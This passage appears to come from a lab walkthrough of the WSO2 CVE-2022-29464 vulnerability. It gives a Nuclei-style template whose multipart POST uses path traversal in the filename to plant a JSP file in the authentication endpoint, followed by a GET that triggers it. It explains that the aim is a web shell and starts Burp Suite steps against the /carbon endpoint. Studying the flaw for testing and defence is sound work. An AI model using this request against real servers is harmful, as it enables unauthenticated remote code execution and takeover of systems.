 ```yaml
requests:
  - raw:
      - |
        POST /fileupload/toolsAny HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
        Content-Length: 348
        -----------------------------250033711231076532771336998311
        Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp";filename="test.jsp"
        Content-Type: application/octet-stream
        <% out.print("WSO2-RCE-CVE-2022-29464"); %>
        -----------------------------250033711231076532771336998311--
      - |
        GET /authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp HTTP/1.1
        Host: {{Hostname}}
```

We know that one of the vulnerable endpoint is the `../../../../repository/deployment/server/webapps/authenticationendpoint/` endpoint.
So, the main idea is to send a `POST` request containing a web shell, which let us to send commands on the system: to craft a request like the one inside the `.yaml` file we will use Burp Suite.

First, turn on the Intercept and catch a request to the `/carbon` endpoint, using the Chromium browser.
Access the `https://<IP>:9443/carbon` from the Chromium Browser.

![browser_access.png](../media/browser_access.png)
